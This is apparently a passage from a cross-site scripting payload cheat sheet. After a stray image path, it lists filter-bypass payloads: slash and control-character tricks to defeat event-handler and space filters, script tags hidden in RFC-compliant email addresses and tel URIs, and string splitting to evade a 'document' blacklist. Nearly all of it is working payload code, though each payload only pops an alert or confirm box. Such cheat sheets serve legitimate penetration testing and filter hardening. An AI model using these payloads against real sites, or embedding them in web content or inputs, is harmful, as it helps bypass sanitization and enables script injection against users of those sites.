 * Bypass onxxx= filter with a '/'
    ```js
    <img src='1' onerror/=alert(0) />
    ```


## Bypass Space Filter

* Bypass space filter with "/"
    ```javascript
    <img/src='1'/onerror=alert(0)>
    ```

* Bypass space filter with `0x0c/^L` or `0x0d/^M` or `0x0a/^J` or `0x09/^I`
  ```html
  <svgonload=alert(1)>
  ```

```ps1
$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```


## Bypass Email Filter

* [RFC0822 compliant](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate)
  ```javascript
  "><svg/onload=confirm(1)>"@x.y
  ```

* [RFC5322 compliant](https://0dave.ch/posts/rfc5322-fun/)
  ```javascript
  xss@example.com(<img src='x' onerror='alert(document.location)'>)
  ```


## Bypass Tel URI Filter

At least 2 RFC mention the `;phone-context=` descriptor:

* [RFC3966 - The tel URI for Telephone Numbers](https://www.ietf.org/rfc/rfc3966.txt)
* [RFC2806 - URLs for Telephone Calls](https://www.ietf.org/rfc/rfc2806.txt)

```javascript
+330011223344;phone-context=<script>alert(0)</script>
```


## Bypass Document Blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
window["doc"+"ument"]
```
